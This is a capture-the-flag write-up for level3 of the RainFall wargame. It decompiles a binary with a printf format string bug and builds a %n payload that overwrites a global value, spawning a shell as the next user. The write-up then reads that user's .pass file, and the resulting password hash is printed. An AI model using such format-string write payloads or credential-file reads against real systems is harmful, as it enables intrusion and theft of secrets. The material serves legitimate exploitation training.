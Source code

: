Decompiled version of the program from BinaryNinja:

```c
uint32_t v()
{
    void var_20c;
    fgets(&var_20c, 0x200, stdin);
    printf(&var_20c);
    uint32_t eax = m;
    if (eax == 0x40)
    {
        fwrite("Wait what?!\n", 1, 0xc, stdout);
        eax = system("/bin/sh");
    }
    return eax;
}

int32_t main(int32_t argc, char** argv, char** envp)
{
    return v();
}
```

A vulnerability in the form of a format string attack can be directly observed on the printf function, as it is called in this manner: `printf(&var_20c)`. This enables us to read and overwrite the stack. The objective here seems to be rewriting the value of EAX in order to invoke /bin/sh as user level4.

Resources on this type of vulnerability:

- https://www.unilim.fr/pages_perso/patrick.poulingeas/Enseignements/2004_2005/Master1/FormatString.pdf
- https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/Les%20failles%20Format%20String.pdf
- https://www.re-xe.com/format-string-bugs/

If we check the function v, we can see that the value contained at address `0x804988c` is stored in EAX before the comparison between EAX and 0x40 (64 in decimal) is carried out:

```assembly
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x218,%esp
   0x080484ad <+9>:	mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax ; <== here
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave  
   0x08048519 <+117>:	ret
```

After the printf call, EAX register will contain the number of characters writted, in the ex below, 64, but the value stored in `0x804988c` is 0. So EAX will always be tested at 0 even if we write 64 caracters :

```nasm
   0x080484d5 <+49>:	call   0x8048390 <printf@plt> ; <== EAX will contain 64 after this call
   0x080484da <+54>:	mov    0x804988c,%eax ; <== EAX is set to 0 after this instruction
   0x080484df <+59>:	cmp    $0x40,%eax ; <== So the test will fail :(

...

012345678901234567890123456789012345678901234567890123456789012

Breakpoint 2, 0x080484da in v ()
(gdb) p $eax
$4 = 64
...
Breakpoint 3, 0x080484df in v ()
(gdb) p $eax
$5 = 0 ; snifu desu
(gdb) p *0x804988c
$6 = 0
```

So, we simply need to rewrite the value present at this address using printf.

Using the formatter `%08x` allows us to advance 4 bytes each time in the stack:

```shell
level3@RainFall:~$ python -c 'print "AAAA %08x %08x %x08 %08x %08x %08x"' | ./level3 
AAAA 00000200 b7fd1ac0 b7ff37d008 41414141 38302520 30252078
```

We can see that our string begins from the 4th formatter, which is the one we control.
Thus, we can directly write the value 0x40 to this address as follows:

```shell
(python -c 'print "\x8c\x98\x04\x08" + "%60d%4$n"'; cat) | ./level3
```

In this case, the `%n` formatter will read the first 4 bytes, which constitute the address where EAX will retrieve the value, and then it will rewrite the value present at that address. The initial value is 4 since we are displaying 4 bytes (the address). We can add the remainder using `%60d`, which makes 4 + 60 = 64 | 0x40.

Alternatively, we could write it like this, for example:

```shell
(python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"'; cat) | ./level3
```

And there's the flag:

```shell
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "%60d%4$n"'; cat) | ./level3 
�                                                           
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```


